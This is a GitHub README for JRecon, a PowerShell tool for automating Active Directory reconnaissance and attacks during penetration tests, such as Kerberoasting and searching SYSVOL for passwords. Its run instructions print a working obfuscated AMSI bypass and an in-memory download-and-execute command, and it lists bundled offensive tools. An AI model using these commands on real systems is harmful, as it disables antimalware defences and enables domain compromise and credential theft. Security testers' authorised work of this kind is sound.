 # JRecon
### A tool to automate Active Directory Reconnaissance
I've been working on this tool to automate a good part of the initial AD enumeration phase that I always go through at the very start of every AD test.

### What can JRecon do for you ?

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS

It will then ask you the following:

Do you want to run the initial Domain Enumeration ?
Do you want to run BloodHound Collection ?
Do you want to download and run PingCastle ?
Do you want to enumerate Readable Shares ?
Do you want to use PingCastle to enumerate shares ?
Do you want to enumerate Writable Shares ?
Do you want to run a URL File Attack ?
Do you want to run a Kerberoast (and ASREPRoast) attack ?
Do you want to check for presence of Kerb Tickets in your local machine ?
Do you want to check for Misconfigured Certificate Templates ?
Do you want to enumerate for Vulnerable GPOs ?
Do you want to enumerate LDAP Signing ?
Do you want to check for Exploitable Systems ?
Do you want to search for Passwords in GPO ?
Do you want to search for Passwords in SYSVOL/Netlogon ?

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle free version will be downloaded)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?

**Rubeus**
Rubeus is a C# toolset for raw Kerberos interaction and abuses.
@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 
**Grouper3**
Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.
@Credit to: https://github.com/Group3r/Group3r
 
**Certify**
Active Directory certificate abuse. 
@Credit to: https://github.com/GhostPack/Certify

**LdapSignCheck**
C# project to check LDAP signing.
@Credit to: https://github.com/cube0x0/LdapSignCheck

**PingCastle** (Free Edition - **Not for commercial use**)
Get Active Directory Security at 80% in 20% of the time
@Credit to: https://github.com/vletoux/pingcastle

**SharpHound**
C# Data Collector for the BloodHound Project
@Credit to: https://github.com/BloodHoundAD/SharpHound

**ADRecon**
ADRecon is a tool which gathers information about the Active Directory
@Credit to: https://github.com/sense-of-security/ADRecon

**Kerberoast.ps1**
Author: Will Schroeder (@harmj0y)
@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

**PowerView**
Author: Will Schroeder (@harmj0y)
@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

**AmsiScanBuffer bypass**
Author: Rasta Mouse (@_RastaMouse)
@Credit to: https://twitter.com/_RastaMouse
